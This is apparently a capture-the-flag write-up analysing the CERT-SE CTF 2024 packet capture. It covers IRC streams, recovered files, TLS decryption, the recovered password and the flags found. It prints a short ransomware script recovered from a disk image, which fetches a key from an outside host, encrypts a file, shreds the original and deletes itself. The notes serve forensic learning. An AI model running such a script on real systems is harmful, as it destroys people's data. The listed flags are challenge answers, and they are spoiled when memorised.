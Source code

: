 #CTF
### Original file: CERT-SE_CTF2024.pcap

Identified ip/mac addresses on file:
An4lys3r/Employee 1: 	IP: 10.0.0.10 MAC: 52:54:00:16:f6:1f
D3f3nd3r/Employee 2: 	IP: 10.0.0.20 MAC: 52:54:00:11:19:a7
??: 			IP: 10.0.0.30 MAC: 52:54:00:52:dc:1f
Server?:		IP: 10.0.0.50 MAC: 52:54:00:6f:d7:65

Suspicious ip address: 195.200.72.82
FTP packets to presumed server shows the credentials to this server.
User: anonymous 
Pass: NcFTP@


#### Stream 0:

stream 0 and 1 are the same but 10.0.0.10 is involved in stream 1 and .20 in stream 0. .30 is involved in both.

Holds a conversation from employees discovering they have been hacked. Same on stream 1, only from the other employees perspective.
From beginning of stream output of system
:irc.ctf.alt 005 D3f3nd3r CHANNELLEN=50 NICKLEN=9 TOPICLEN=490 AWAYLEN=127 KICKLEN=400 MODES=5 MAXLIST=beI:50 EXCEPTS=e INVEX=I PENALTY FNC :are supported on this server
:irc.ctf.alt 251 D3f3nd3r :There are 1 users and 0 services on 1 servers
:irc.ctf.alt 253 D3f3nd3r 1 :unknown connection(s)
:irc.ctf.alt 254 D3f3nd3r 1 :channels formed
:irc.ctf.alt 255 D3f3nd3r :I have 1 users, 0 services and 0 servers
:irc.ctf.alt 265 D3f3nd3r 1 2 :Current local users: 1, Max: 2
:irc.ctf.alt 266 D3f3nd3r 1 2 :Current global users: 1, Max: 2
:irc.ctf.alt 250 D3f3nd3r :Highest connection count: 2 (4 connections received)
:irc.ctf.alt 375 D3f3nd3r :- irc.ctf.alt message of the day
:irc.ctf.alt 372 D3f3nd3r :- "Hello world!"
:irc.ctf.alt 376 D3f3nd3r :End of MOTD command

Found first flag on packet 1742.
Second on packet 4.

packet 147 the person in the datacenter sends over ransom note. /home/user/emergency_net/DCC/RANSOM_NOTE.gz
SHA-256 checksum to go along: 7113f236b43d1672d881c6993a8a582691ed4beb4c7d49befbceb1fddfb14909

Someone posted a wordlist scraped from their public website, and ranting about recording web traffic from workstation CTF-PC01.

IP they found suspicious. Involved in [[Attacks on networks#C2 or C&C |C2]] and exfiltration activities. 195.200.72.82

#### Stream 2:
ransom
#### Stream 3:
corp_net1.pcap file sent to .20

#### Stream 4:
Packet 391 seems to have something to do with programming c++ buffer error and an error from a python library.
Packet 394 is very strange. Maybe has something to do with c++?
Packet 384/977 has something about a puzzle.exe
Packet 981 has some more whatyoulookingat.com and also polisen.se
Encrypted data but at the bottom is alot of "whatyoulookingat.com".
Also packet 1030 has alot of windows directory from recycle bin. and also whatyoulookingat.com, cloudflare.net and sapo.se.cdn.
They seem to have extracted Recycle-Bin.zip here also.

Extracted corp_net1.pcap here.

#### Stream 5:

corp_net2.pcap file sent to .20

#### Stream 6:

Looking at stream 3 where a request was made to get corp_net2.pcap, packet that said "ok to send data" was nr. 1128se and first packet of stream 6 was 1132 I figured this was probably
that .pcap file so i saved it as raw data with file extention .pcap, I was correct.

#### Stream 7:

disk1.img.gz file is sent to .20

#### Stream 8:

extracted file disk1.img.gz. Altough it cannot be decompressed with winrar.

#### Stream 10:

Seems to be the wordlist. 
Extracted file.

Extracted file: corp_net2.pcap

Extracted file: disk1.img.gz

## File disk1.img.gz

It was corrupted, but using [[Pen testing tools#Gzrecover|gzrecover]] and then [[Pen testing tools#TestDisk|testDisk]] I was able to extract 4 files.
1. secret
2. secret.encrypted
3. sslkeylogfile
4. ransomware.sh
After inspecting the files I found that sslkeylogfile contained some ssl keys for TLS 1.3.
Ransomware.sh contained a shell script that encrypted secret using -aes-128-cbc cipher with [[Pen testing tools#Openssl|openssl]], outputting the secret.encrypt file and then shredded the secret file with 'shred' command before removing it and the sslkeylogfile.
### ransomware.sh
`#!/bin/bash 
`password=$(SSLKEYLOGFILE=sslkeylogfile curl --insecure https://whatyoulookingat.com/1.txt)
`openssl enc -aes-128-cbc -pass pass:$password -in secret -out secret.encrypted
`shred secret
`rm secret
`rm sslkeylogfile
`rm $0

The secret file is probably a lost cause, I will instead focus on cracking the secret.encrypt file since I know aes128 was used and the sslkeylogfile previously extracted is probably going to help me decrypt the traffic where the password was obtained from whatyoulookingat.com.

## ransomNote.gz

After neglecting this file I ran gzrecover on it and got a ASCII text file. But the file was corrupted. The checksum is wrong, the original conversation the had the checksum provided: 7113f236b43d1672d881c6993a8a582691ed4beb4c7d49befbceb1fddfb14909.

## corp_net1.pcap
### secret.encrypted

Here I found the password for the secret.encrypted file. Since I knew from the ransomware.sh script that the password was obtained from `whatyoulookingat.com/1.txt`, I searched for this as a regular expression in packet details. This led me to tcp stream 53 in this file. And packet 1920 had a payload of 17 bytes which had the password. 

	Password: pheiph0Xeiz8OhNa

Now I could decrypt the file. 
```
openssl enc -d -aes-128-cbc -in secret.encrypted -out secret.txt -pass pass:pheiph0Xeiz8OhNa
```
And in secret.txt was CTF\[OPPORTUNISTICALLY]

### puzzle.exe

After tls decryption of this file I found on stream 59 that puzzle.exe was extracted. This is most likely the file transmitted on stream 60.
This was correct, it is a puzzle.

### recycle-bin.zip

Stream 63 mentions transferring file Recycle-bin.zip. Extracted on stream 64.

### archive

Stream 66 mentions transferring file archive. Extracted on 

## corp_net2.pcap
### unauthorized html

Stream 57 had an html file where something was unauthorized.
### FLAGS:

CTF\[E65D46AD10F92508F500944B53168930]
CTF\[AES128]
CTF\[OPPORTUNISTICALLY]